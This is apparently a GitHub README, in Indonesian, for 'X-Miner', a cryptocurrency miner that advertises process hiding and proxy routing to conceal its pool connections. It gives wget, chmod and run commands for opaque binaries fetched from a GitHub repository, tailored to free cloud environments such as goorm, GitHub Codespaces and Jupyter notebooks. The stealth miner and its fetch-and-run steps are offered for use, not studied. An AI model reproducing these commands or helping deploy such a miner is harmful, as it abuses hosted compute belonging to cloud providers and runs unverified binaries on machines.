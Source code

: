 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgm

# Beri izin eksekusi
chmod +x xgm

# Jalankan aplikasi
./xgm

3.codespace

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgt

# Beri izin eksekusi
chmod +x xgt

# Jalankan aplikasi
./xgt

3. runtime notebook/jupyter

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xc

# Beri izin eksekusi
chmod +x xc

# Jalankan aplikasi
./xc

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai
3. Miner runing bisa dilihat dengan munculnya prosess yang di tandai merah di htop
![Screenshot Running](https://raw.githubusercontent.com/xploit-miner/ER1/main/img/shtoprun.JPG)
